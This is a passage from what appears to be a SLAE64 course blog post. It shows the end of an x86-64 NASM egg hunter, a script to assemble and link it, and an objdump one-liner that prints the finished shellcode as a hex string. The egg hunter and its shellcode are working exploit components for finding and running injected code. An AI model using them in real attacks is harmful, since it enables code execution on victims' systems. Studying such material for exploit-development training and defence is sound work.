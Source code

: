 ```nasm
	cmp al, 0xf2		; compare return value of accept with 0xf2 (low byte of EFAULT return value)

	jz next_page		; jump short to next_page if zero (ZF = 1)

	cmp [rdx], ebx		; if the egg in ebx doesn't match rdx content go to the next address
	jnz next_address	; jump short if not zero (ZF = 0)

	cmp [rdx + 0x4], ebx	; if the egg in ebx doesn't match rdx+4 content go to the next address again
	jnz next_address	; jump short if not zero (ZF = 0)

	jmp rdx			; egg is found, jump short at rdx (our shellcode)
```

## Testing the Egg Hunter

In order to prove that the Egg Hunter is working, we first have to compile the `Assembly` code. This process consists of assembling and linking, which are described in previous blog posts.

The following `bash` script automates that process:

```bash
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -felf64 -o $1.o $1.nasm

echo '[+] Linking ... '
ld -o $1 $1.o

echo '[+] Done!'
```

The following command does the compilation and creates the executable `egg-hunter`:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/3_Egg_hunter$ ./compile.sh egg-hunter
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
```

The next step is to extract the shellcode from the `egg-hunter` executable in order to test it with another shellcode. The `objdump` program, which displays information from object files, is used with the following one-liner:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/3_Egg_hunter$ objdump -d ./egg-hunter |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x48\x31\xdb\xbb\x90\x50\x90\x50\x48\x31\xff\x48\x31\xd2\x66\x81\xca\xff\x0f\x48\xff\xc2\x48\x8d\x7a\x04\x48\x31\xc0\xb0\x15\x0f\x05\x3c\xf2\x74\xe9\x39\x1a\x75\xea\x39\x5a\x04\x75\xe5\xff\xe2"
```
